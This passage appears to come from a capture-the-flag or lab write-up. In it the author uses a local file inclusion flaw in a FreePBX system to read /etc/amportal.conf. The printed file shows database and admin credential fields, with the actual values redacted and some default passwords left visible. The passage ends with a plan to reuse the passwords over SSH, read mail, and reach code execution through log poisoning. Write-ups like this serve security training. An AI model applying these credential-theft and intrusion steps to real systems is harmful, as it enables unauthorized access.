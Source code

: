 And I found no interesting files we can read to exploit LFI log poisoning.

**Then, I took a closer look at the original PoC's LFI file `/etc/amportal.conf`, there are some credentials!**
```shell
> /etc/amportal.conf
[+] File content:
[...]
# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS={Redacted}
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS={Redacted}
[...]
# FOPWEBROOT: Path to the Flash Operator Panel webroot (leave off trailing slash)
# FOPPASSWORD: Password for performing transfers and hangups in the Flash Operator Panel
# FOPRUN: Set to true if you want FOP started by freepbx_engine (amportal_start), false otherwise
# FOPDISABLE: Set to true to disable FOP in interface and retrieve_conf.  Useful for sqlite3 
# or if you don't want FOP.
#
#FOPRUN=true
FOPWEBROOT=/var/www/html/panel
#FOPPASSWORD=passw0rd
FOPPASSWORD={Redacted}
[...]
# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD={Redacted}
[...]
```

**Armed with above information, we can expand our attack surface:**

1. SSH via system user password reuse
2. Reading and sending emails via SMTP, POP3 and IMAP
3. RCE via LFI log poisoning with emails 
